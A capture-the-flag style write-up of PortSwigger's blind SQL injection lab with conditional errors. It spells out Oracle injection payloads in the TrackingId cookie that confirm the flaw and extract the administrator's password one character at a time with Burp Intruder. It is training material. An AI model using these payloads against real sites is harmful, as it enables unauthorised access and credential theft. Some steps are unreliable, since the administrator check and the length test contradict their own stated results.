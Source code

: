 ## Blind SQL injection with conditional errors

**Title:** Blind SQL injection with conditional errors. [Go](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

**Description:** This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message. The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Preface

Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique in the previous section won't work, because injecting different boolean conditions makes no difference to the application's responses.

It's often possible to induce the application to return a different response depending on whether a SQL error occurs. You can modify the query so that it causes a database error only if the condition is true. Very often, an unhandled error thrown by the database causes some difference in the application's response, such as an error message. This enables you to infer the truth of the injected condition.

To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
``` SQL
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
These inputs use the CASE keyword to test a condition and return a different expression depending on whether the expression is true:

With the first input, the CASE expression evaluates to `a`, which does not cause any error.
With the second input, it evaluates to `1/0`, which causes a divide-by-zero error.
If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true. Using this technique, you can retrieve data by testing one character at a time:

`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

## Methodology

### Finding the vulnerable parameter
Initially, our foremost objective is to identify a potential vulnerability within the application's parameters that allows for the execution of SQL queries. In the context of this shopping application, we are particularly interested in the `TrackingId` cookie parameter , where the backend logic is designed to query the submitted data.

### My thought

Modify the `TrackingId` cookie, appending a single quotation mark to it: `TrackingId=oMv'`.Verify that an error message is received. Now change it to two quotation marks: `TrackingId=oMv''`. Verify that the error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.

![poc_internal_server_error.png](../images/internal_server_error.png)

![poc_internal_server_error_no.png](../images/internal_server_error_no.png)

Now we need to confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error. To do this, you first need to construct a subquery using valid SQL syntax. Try submitting: `TrackingId=oMv'||(SELECT '')||'`. In this case, notice that the query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query: `TrackingId=oMv'||(SELECT '' FROM dual)||'`. As you no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all `SELECT` statements to explicitly specify a table name.

![poc_database_type.png](../images/database_type.png)

![poc_oracle_db.png](../images/oracle_db.png)

As long as you make sure to always inject syntactically valid SQL queries, you can use this error response to infer key information about the database. For example, in order to verify that the users table exists, send the following query: `TrackingId=oMv'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`. As this query does not return an error, you can infer that this table does exist. Note that the `WHERE ROWNUM = 1` condition is important here to prevent the query from returning more than one row, which would break our concatenation.

![poc_users_table.png](../images/users_table.png)

You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username administrator exists: `TrackingId=oMv'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. Verify that the condition is true (the error is received), confirming that there is a user called `administrator`.

![poc_administrator_user.png](../images/administrator_user.png)

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to: `TrackingId=oMv'||(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. This condition should be true, confirming that the password is greater than 1 character in length. And by iterating we concluded password is 20 characters long.

![poc_password_length.png](../images/password_length.png)

After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu. In the Positions tab of Burp Intruder, change the value of the cookie to:
`TrackingId=oMv'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. This uses the `SUBSTR()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn. And here comes our cluster bomb option in play. The configuration here we saw earlier in our pervious lab. `TrackingId=oMv'||(SELECT CASE WHEN SUBSTR(password,$payload_01$,1)='$payload_02$' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`.

![poc_final.png](../images/final.png)

**Summary:**
1. Confirming vulnerability with `TrackingId=oMv'`, `TrackingId=oMv''`.

2. Confirming SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error with `TrackingId=oMv'||(SELECT '')||'`, `TrackingId=oMv'||(SELECT '' FROM dual)||'`.
 
3. `users` table confirmation with `TrackingId=oMv'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`.
 
4. `administrator` user confirmation with `TrackingId=oMv'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`.

5. Password length determination with `TrackingId=oMv'||(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`.
 
6. Password enumeration with `TrackingId=oMv'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`.
